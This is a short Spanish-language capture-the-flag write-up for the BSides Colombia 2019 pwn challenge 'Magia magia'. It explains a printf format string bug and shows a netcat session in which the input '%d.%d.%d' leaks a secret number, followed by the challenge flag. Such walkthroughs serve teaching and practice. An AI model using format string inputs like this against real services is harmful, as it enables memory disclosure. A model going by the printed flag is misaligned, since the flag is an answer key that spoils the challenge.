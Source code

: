# __BSides Colombia 2019__
## _Magia magia_

 ## Información 
**Categoría:** | **Writeup Author**
--- | ---
Pwn | Huascar Tejeda <<htejeda@f2tc.com>>

**Descripción:**

> Hay quienes leen mentes y otros leen memorias ;)
> retos.bsides.ctf.co:31333
>
> [chall](magia.c)

**Bandera:**

> BSidesCo{m4gi4_MAG1a-b5G_BU6}

## Solución

Luego de leer el código fuente provisto, pudimos notar que el programador utilizó `printf` de manera incorrecta haciendo el programa vulnerable a un format string attack. Con este format string podemos leer el contenido de `secretnum`.

```
❯❯❯ nc retos.bsides.ctf.co 31333
Prueba que eres mago y lees mentes!
Primero dime tu nombre (hasta 10 letras):
%d.%d.%d
Estoy pensando un numero entre 0 y 1000000, puedes decirme cual es?
1646996036.744.638161
has tu prediccion: 638161
Sorprendente! Aca esta la bandera: BSidesCo{m4gi4_MAG1a-b5G_BU6}
```